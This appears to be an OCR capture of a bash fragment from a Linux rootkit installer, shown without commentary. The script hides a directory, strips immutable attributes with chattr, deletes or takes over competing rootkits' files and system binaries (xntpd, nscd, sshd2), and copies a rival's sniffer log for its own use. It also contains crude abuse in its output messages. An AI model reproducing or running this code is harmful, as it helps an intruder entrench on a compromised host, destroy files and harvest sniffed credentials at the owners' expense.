 ```bash

if [ "`cat /tmp/.stats | grep 443 | grep http`" ]; then
  echo "${RED}[${WHI}sh${RED}]# MOD_SSL found - patch it bitch !!!! ${RES}"
fi

rm -rf /tmp/.stats

# CHECKING FOR HOSTILE ROOTKITS/BACKDORS
mkdir $HOMEDIR/.owned

if [ -f /etc/ttyhash ]; then
  chattr -AacdisSu /etc/ttyhash
  rm -rf /etc/ttyhash
fi

if [ -d /lib/ldd.so ]; then
  chattr -isa /lib/ldd.so
  chattr -isa /lib/ldd.so/*
  mv /lib/ldd.so $HOMEDIR/.owned/tk8
  echo "${RED}[${WHI}sh${RED}]# tk8 detected and owned ...!!!! ${RES}"
fi

if [ -d /usr/src/.puta ]; then
  chattr -isa /usr/src/.puta
  chattr -isa /usr/src/.puta/*
  mv /usr/src/.puta $HOMEDIR/.owned/tk7
  echo "${RED}[${WHI}sh${RED}]# tk7 detected and owned ...!!!! ${RES}"
fi

if [ -f /usr/sbin/xntpd ]; then
  chattr -isa /usr/sbin/xntpd
  rm -rf /usr/sbin/xntpd
fi

if [ -f /usr/sbin/nscd ]; then
  chattr -isa /usr/sbin/nscd
  rm -rf /usr/sbin/nscd
fi

if [ -d /usr/include/bex ]; then
  chattr -isa /usr/info/termcap.info-5.gz; rm -rf /usr/info/termcap.info-5.gz
  chattr -isa /usr/include/audit.h; rm -rf /usr/include/audit.h
  chattr -isa /usr/include/bex
  chattr -isa /usr/include/bex/*
  mv /usr/include/bex/ $HOMEDIR/.owned/bex2
  if [ -f /var/log/tcp.log ]; then
    chattr -isa /var/log/tcp.log
    cp /var/log/tcp.log $HOMEDIR/.owned/bex2/snifflog
  fi
  chattr -isa /usr/bin/sshd2 >/dev/null 2>&1
  rm -rf /usr/bin/sshd2 >/dev/null 2>&1
  echo "${RED}[${WHI}sh${RED}]# beX2 detected and owned ...!!!! ${RES}" 
fi

if [ -d /dev/tux/ ]; then
  chattr -isa /usr/bin/xsf >/dev/null 2>&1
  rm -rf /usr/bin/xsf >/dev/null 2>&1
  chattr -isa /usr/bin/xchk >/dev/null 2>&1
  rm -rf /usr/bin/xchk >/dev/null 2>&1
  chattr -isa /dev/tux >/dev/null 2>&1
  mv /dev/tux $HOMEDIR/.owned/tuxkit
  echo "${RED}[${WHI}sh${RED}]# tuxkit detected and owned ...!!!!  ${RES}" 
fi
```